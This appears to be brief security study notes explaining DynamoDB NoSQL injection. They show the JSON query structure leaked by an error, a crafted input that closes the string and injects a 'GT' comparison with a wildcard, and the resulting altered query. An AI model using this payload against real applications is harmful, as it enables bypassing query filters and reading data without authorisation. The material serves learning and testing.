



# DynamoDB nosql injection



Error shows the structure of the json query



```json
{"Name": 
    {
        "ComparisonOperator": "EQ",
        "AttributeValueList": 
            [
                {
                    "S": " <USER INPUT> "
                }
            ]
    }
} 
```

Input `alice"}],"ComparisonOperator": "GT", "AttributeValueList":[{"S":"*`



Which inputs into below

```json
{"Name": 
    {
        "ComparisonOperator": "EQ",
        "AttributeValueList": 
            [
                {
                    "S": "   alice"}],"ComparisonOperator": "GT", "AttributeValueList":[{"S":"*   "
                }
            ]
    }
} 
```

